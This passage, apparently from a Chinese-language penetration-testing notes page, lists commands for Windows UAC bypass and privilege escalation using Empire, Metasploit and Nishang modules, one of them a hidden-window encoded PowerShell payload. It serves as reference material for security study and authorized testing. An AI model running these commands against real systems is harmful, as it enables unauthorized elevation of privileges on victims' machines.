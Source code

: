 ### [](#empire-%E5%86%85%E7%BD%AE%E6%A8%A1%E5%9D%97)Empire 内置模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>usermode privesc/powerup/xxxx<br>``` |

## [](#%E7%BB%95%E8%BF%87-uac-%E6%8F%90%E6%9D%83)绕过 UAC 提权

### [](#bypassuac-%E6%A8%A1%E5%9D%97)bypassuac 模块

前提：当前用户必须在管理员组中

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br>exploit/windows/local/bypassuac<br>exploit/windows/local/bypassuac_inject<br>getsystem<br>``` |

### [](#runas-%E6%A8%A1%E5%9D%97)RunAs 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>exploit/windows/local/ask<br>``` |

弹出一个 UAC 框，用户点击后会弹回一个高权限的 shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>getuid 查看权限，如果是普通用户权限，执行 getsystem 提权<br>``` |

### [](#nishang-%E4%B8%AD%E7%9A%84-invoke-psuacme-%E6%A8%A1%E5%9D%97)Nishang 中的 Invoke-PsUACme 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```cmd<br>Invoke-PsUACme -Verbose ## 使用Sysprep方法并执行默认的Payload<br>Invoke-PsUACme -method oobe -Verbose ## 使用oobe方法方法并执行默认的Payload<br>Invoke-PsUACme -Payload "powershell -windowstyle hidden -e YourEncodedPayload"<br>## 使用-Payload参数，可以自行指定要执行的Payload<br>``` |

### [](#empire-%E4%B8%AD%E7%9A%84-bypassuac-%E6%A8%A1%E5%9D%97)Empire 中的 bypassuac 模块

#### [](#bypassuac-%E6%A8%A1%E5%9D%97-1)bypassuac 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>usemode privesc/bypassuac<br>execute<br>``` |

#### [](#bypassuac_wscript-%E6%A8%A1%E5%9D%97)bypassuac\_wscript 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>usemode privesc/bypassuac_wscript<br>execute<br>``` |
